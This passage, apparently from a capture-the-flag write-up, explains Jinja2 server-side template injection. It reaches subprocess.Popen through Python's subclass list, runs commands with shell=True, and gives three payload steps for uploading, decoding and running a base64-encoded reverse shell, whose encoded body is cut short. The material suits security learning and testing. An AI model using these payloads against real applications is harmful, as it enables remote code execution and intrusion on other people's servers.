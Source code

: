 So, brute-force indexes, increasing `x` until you spot:

```
<class 'subprocess.Popen'>
```

For me, it was at index 370 (homemade script):

{% raw %}
```python
{{().__class__.__base__.__subclasses__().__getitem__(370)}}
```
{% endraw %}
![]({{ page.img_path }}266141f38469455095f4adaed9d65f43.png)


Test command execution with:
{% raw %}
```python
{{().__class__.__base__.__subclasses__().__getitem__(370)("id",shell=True,stdout=-1).communicate()}}
```
{% endraw %}

Returns:

![]({{ page.img_path }}6ebcf8a0c9b3496aa4b967d0f0d88d1f.png)

---

## Getting a Reverse Shell

We can now upload a Python reverse shell in base64, decode it and run it:

**Step 1: Upload reverse shell (base64-encoded)**
{% raw %}
```python
{{().__class__.__base__.__subclasses__().__getitem__(370)("echo 'cHl...==' > shell.b64",shell=True,stdout=-1).communicate()}}
```
{% endraw %}

**Step 2: Decode to file**
{% raw %}
```python
{{().__class__.__base__.__subclasses__().__getitem__(370)("base64 -d shell.b64 > shell",shell=True,stdout=-1).communicate()}}
```
{% endraw %}

**Step 3: Execute**
{% raw %}
```python
{{().__class__.__base__.__subclasses__().__getitem__(370)("bash shell",shell=True,stdout=-1).communicate()}}
```
{% endraw %}
